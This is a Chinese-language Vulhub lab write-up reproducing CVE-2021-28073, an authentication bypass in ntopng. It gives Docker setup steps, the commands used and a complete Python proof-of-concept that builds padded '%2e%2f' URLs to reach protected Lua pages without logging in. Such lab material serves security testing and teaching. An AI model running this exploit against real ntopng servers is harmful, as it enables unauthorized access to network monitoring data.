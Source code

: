 # ntopng权限绕过漏洞 CVE-2021-28073

## 漏洞描述

ntopng是监控服务器网络流量的工具，对外提供Web页面。其4.2及以前的版本中存在一处权限绕过漏洞，利用该漏洞可以未授权访问目标任意接口。

参考链接：

- http://noahblog.360.cn/ntopng-multiple-vulnerabilities/

## 环境搭建

Vulhub执行如下命令启动ntopng：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`将被跳转到登录页面，默认密码admin/admin，首次登录将会重设密码。

## 漏洞复现

根据参考链接中的方法，编写一个简单的[poc.py](https://github.com/vulhub/vulhub/blob/master/ntopng/CVE-2021-28073/poc.py)。首先，计算出ntopng lua目录的长度：

```
python poc.py --url http://your-ip:3000/ baselength
```

![image-20220228113233978](./images/202202281132047.png)

可见，Vulhub靶场中的长度为36。

然后，找到我们想要越权访问的页面或接口，比如`/lua/find_prefs.lua`，正常访问时会302跳转到登录页面，无权限。

使用POC生成越权访问URL：

```
python poc.py --url http://your-ip:3000/ generate -l 36 -p find_prefs.lua
```

![image-20220228113310020](./images/202202281133101.png)

访问这个URL，发现可以越权返回正常信息：

![image-20220228113322732](./images/202202281133775.png)

后续更深入的利用方法，可以自行修改poc.py利用。

## 漏洞POC

```python
import sys
import requests
import argparse
import logging


def is_ntopng() -> bool:
    response = session.get(base_url, allow_redirects=False)
    return response.status_code == 302 and '/lua/login.lua' in response.headers.get('Location', '')


def get_base_length() -> int:
    for i in range(90, 120):
        url = base_url + '/lua/' + '%2e%2f' * i + 'as_stats.lua.css'
        response = session.get(url, allow_redirects=False)
        if response.status_code < 300:
            return 255 - 1 - i * 2 - len('as_stats.lua')

    for i in range(90, 120):
        url = base_url + '/lua/' + '%2e%2f' * i + 'get_macs_data.lua.css'
        response = session.get(url, allow_redirects=False)
        if response.status_code < 300:
            return 255 - 1 - i * 2 - len('get_macs_data.lua')

    return -1


def get_padding_length(path: str):
    padding_length = 255 - 1 - base_length - len(path)
    if padding_length % 2 == 1:
        raise RuntimeError(f'path {path} is not support')

    return int(padding_length / 2)


logging.basicConfig(stream=sys.stderr, level=logging.WARNING)
session = requests.Session()
session.headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36'


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='CVE-2021-28073 POC for ntopng.')
    parser.add_argument('-u', '--url', help='base url for ntopng, eg: http://192.168.1.233:3000', metavar='<URL>', required=True)
    parser.add_argument('-v', '--verbose', default=False, action='store_true')

    subparsers = parser.add_subparsers(dest='action')

    baselength_command = subparsers.add_parser('baselength', help='get base path length of ntopng')

    generate_command = subparsers.add_parser('generate', help='generate the authenticate bypass url')
    generate_command.add_argument('-l', '--length', type=int, help='base path length of target ntopng', metavar='<LENGTH>', required=True)
    generate_command.add_argument('-p', '--path', help='lua pathname', metavar='<PATH>', required=True)

    generate_command = subparsers.add_parser('include', help='generate the arbitrary file inclusion url')
    generate_command.add_argument('-l', '--length', type=int, help='base path length of target ntopng', metavar='<LENGTH>', required=True)
    generate_command.add_argument('-i', '--include', help='path to include', metavar='<PATH>', required=True)

    args = parser.parse_args()
    if not args.action:
        parser.print_help()
        sys.exit(1)

    if args.verbose:
        logging.basicConfig(stream=sys.stderr, level=logging.DEBUG)

    base_url = args.url.rstrip('/')

    # check target
    if not is_ntopng():
        raise RuntimeError('No Ntopng detected')

    if args.action == 'baselength':
        base_length = get_base_length()
        sys.stdout.write(f'ntopng install path length: {base_length}\n')
    elif args.action == 'generate':
        base_length = args.length
        path = args.path
        sys.stdout.write(base_url + '/lua/' + '%2e%2f' * get_padding_length(path) + path + '.css\n')
```

